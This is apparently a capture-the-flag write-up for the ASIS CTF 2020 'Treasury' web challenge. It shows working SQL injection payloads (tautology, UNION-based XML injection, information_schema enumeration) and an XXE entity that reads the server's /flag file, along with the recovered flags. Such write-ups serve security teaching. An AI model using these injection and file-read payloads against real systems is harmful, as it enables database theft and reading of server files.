

# Treasury (ASIS CTF Quals 2020)
> [A Cultural Treasury](https://poems.asisctf.com/)

## Treasury #1
We start off by opening the given URL, we get information about some books :


We open the Network tab in the developer tools and we notice that a request was made to <https://poems.asisctf.com/books.php?type=list>, with the initiator being this [treasury.js](https://poems.asisctf.com/treasury.js) file :



After opening [treasury.js](https://poems.asisctf.com/treasury.js), we see two fetch calls :  
- The [first one](img/Treasury-treasury.js-fetch-excerpt.png "Treasury treasury.js fetch excerpt") is made to `'/books.php?type=excerpt&id=' + book.id`
- The [second one](img/Treasury-treasury.js-fetch-list.png "Treasury treasury.js fetch list") is made to `'books.php?type=list'`

### SQL injection
After testing the `type` parameter for values other than `excerpt` or `list`, we always get an error : `Invalid type`

Moving on to the `id` parameter, only the IDs 1, 2 and 3 return some data (the book excerpts).  
But if we try to put something like `' OR '1'='1` it works ! It fetches the excerpt of the first book successfully (<https://poems.asisctf.com/books.php?type=excerpt&id='+OR+'1'%3D'1>)

Now let's try a UNION injection with `' UNION SELECT 'ANYTHING` (<https://poems.asisctf.com/books.php?type=excerpt&id='+UNION+SELECT+'ANYTHING>)  
We get an error message indicating that the server tried to load an XML string out of the string `ANYTHING` that we provided in the union query :


#### Dirty approach (error based)
Great ! So now we can fetch anything from the database, and output it in the error message, and in fact this is the approach I took when I continued solving this challenge the first time.  
But there is a little problem (which is more like an inconvenience) : the error message prints only 80 characters max and stops printing when it encounters a newline, so when fetching data from the database we have to make sure that the newlines are replaced and print only 80 characters at a time, you can find the script I used to do that [here](error-based-solve.py "error-based-solve.py")

#### Clean approach (XML injection)
Now, for a better and cleaner approach, if we think a little bit about this, since the server is expecting to load an XML string from the database, we can actually create our own XML in the union injection and let the server parse it.  
But we have to know the structure of the XML string it expects...  
Well. We can guess, right ? Since we're fetching book excerpts, maybe it expects an `excerpt` tag ? Let's see :
- Let this be the XML we're injecting
```xml
<root>
  <excerpt>TESTING HERE</excerpt>
</root>
```
- Let's put it in the payload : `' UNION SELECT '<root><excerpt>TESTING HERE</excerpt></root>`, and send it
- We get `TESTING HERE` in the [response](img/Treasury-XML-injection.png "Treasury XML injection"), great ! We successfully crafted an XML string to be parsed by the server

### Database enumeration
Now using the XML injection technique, we can enumerate all existing databases, tables and their contents.

#### Enumerate all the tables
- **Query payload:** `' UNION SELECT CONCAT('<root><excerpt>', GROUP_CONCAT(table_schema), '|', GROUP_CONCAT(table_name), '</excerpt></root>') FROM information_schema.tables WHERE table_schema != 'information_schema`
- **Explanation:** first of all, we wrap what we want to fetch in the previous XML tags (root and excerpt), now to fetch all the names of all databases and tables, there is a special table `information_schema.tables` which contains that information in the columns `table_schema` (database) and `table_name`. We use `GROUP_CONCAT` to get concatenate all the resulting rows in a single one (because the server fetches only the first row), and we use `CONCAT` to concatenate the resulting columns into one (else the union query would fail because of a mismatch of the number of columns), and finally we specify `WHERE table_schema != 'information_schema'` to avoid fetching information about the special database `information_schema` since it doesn't mean anything to us.
- **Response:** `ASISCTF|books`, this means that there is only the `books` table in the `ASISCTF` database

#### Enumerate the columns of ASISCTF.books
- **Query payload:** `' UNION SELECT CONCAT('<root><excerpt>', GROUP_CONCAT(column_name), '</excerpt></root>') FROM information_schema.columns WHERE table_name = 'books`
- **Explanation:** again, we wrap what we need in the XML tags, and with the same technique as the previous one, we fetch all column names from the `books` table.
- **Response:** `id,info`, so now our focus is on the `info` column, which we know contains the XML strings.

### Finding the gold
Now before writing our next query, we have to put in mind that since the info column contains XML strings, we want the server not to parse those XML strings, we just want to see them in their raw form.  
Thankfully we can achieve that with MySQL's `REPLACE` function, by replacing `<` with something else.
- **Query payload:** `' UNION SELECT CONCAT('<root><excerpt>', REPLACE(GROUP_CONCAT(info, '\n-------------------------------\n'), '<', '>'), '</excerpt></root>') FROM books #`
- **Explanation:** we wrap what we need to fetch in XML tags, and use `GROUP_CONCAT` to join all infos by separating them with `\n-------------------------------\n`, and we replace `<` with `>` to avoid the interpration of the inner XML, and we use `#` in the end to comment out the rest of the query.
- **Response:** we get all the XML strings, and we notice that there is a surprise of a tag... but a welcome one :
```
>?xml version="1.0" encoding="UTF-8"?>
>book>
  >id>1>/id>
  >name>Dīvān of Hafez>/name>
  >author>Khwāja Shams-ud-Dīn Muḥammad Ḥāfeẓ-e Shīrāzī>/author>
  >year>1315-1390>/year>
  >link>https://ganjoor.net/hafez/ghazal/sh255/>/link>
  >flag>Your flag is not here! Read more books :)>/flag>
  >excerpt>LONG POEM HERE>/excerpt>
>/book>
-------------------------------
,>?xml version="1.0" encoding="UTF-8"?>
>book>
  >id>2>/id>
  >name>Gulistan of Saadi>/name>
  >author>Abū-Muhammad Muslih al-Dīn bin Abdallāh Shīrāzī, the Saadi>/author>
  >year>1258>/year>
  >link>https://ganjoor.net/saadi/golestan/gbab1/sh36/>/link>
  >flag>OK! You can use ASIS{6e73c9d277cc0776ede0cbd36eb93960d0b07884} flag, but I keep the `/flag` file secure :-/>/flag>
  >excerpt>LONG POEM HERE>/excerpt>
>/book>
-------------------------------
,>?xml version="1.0" encoding="UTF-8"?>
>book>
  >id>3>/id>
  >name>Shahnameh of Ferdowsi>/name>
  >author>Abul-Qâsem Ferdowsi Tusi>/author>
  >year>977-1010>/year>
  >link>https://ganjoor.net/ferdousi/shahname/jamshid/sh1/>/link>
  >flag>Just if I could read files :(>/flag>
  >excerpt>LONG POEM HERE>/excerpt>
>/book>
-------------------------------
```
As you can see, the **flag** is in the `flag` tag in the second book : `ASIS{6e73c9d277cc0776ede0cbd36eb93960d0b07884}`  
But we also get this message `"I keep the /flag file secure"`, let's see how "secure" that is in the second part of this challenge.

## Treasury #2
Before going forward, make sure to read the solution of `Treasury #1` since this part is pretty easy and just uses what we gathered in the first part.

### XXE
That being said, it is now obvious that we need to read the contents of `/flag`.
> Just if I could read files :(

Oh yes we can... XML provides us with the great feature of loading external resources using DocType Definitions (DTD), and this falls in the range of **XXE attacks** (XML eXternal Entity).

Here is the XML we'll be injecting to read the contents of `/flag` :
```xml
<!DOCTYPE excerpt [
   <!ELEMENT excerpt ANY >
   <!ENTITY flag SYSTEM  "file:///flag" >]>
<root>
  <excerpt>&flag;</excerpt>
</root>
```
As you can see, we use a DOCTYPE definition and define `flag` as an entity that reads the `/flag` file, so when we issue `&flag;` in the `excerpt` tag, it will replace the `flag` "variable" with the contents of `/flag`. Let's see :
- **Query payload:** `' UNION SELECT '<!DOCTYPE excerpt [<!ENTITY flag SYSTEM "file:///flag">]><root><excerpt>&flag;</excerpt></root>`
- **Explanation:** nothing much to explain, we just inject the XML in the UNION query
- **Response:** `ASIS{03482b1821398ccb5214d891aed35dc87d3a77b2}`, we get the second **flag** as expected, **very COOL**.
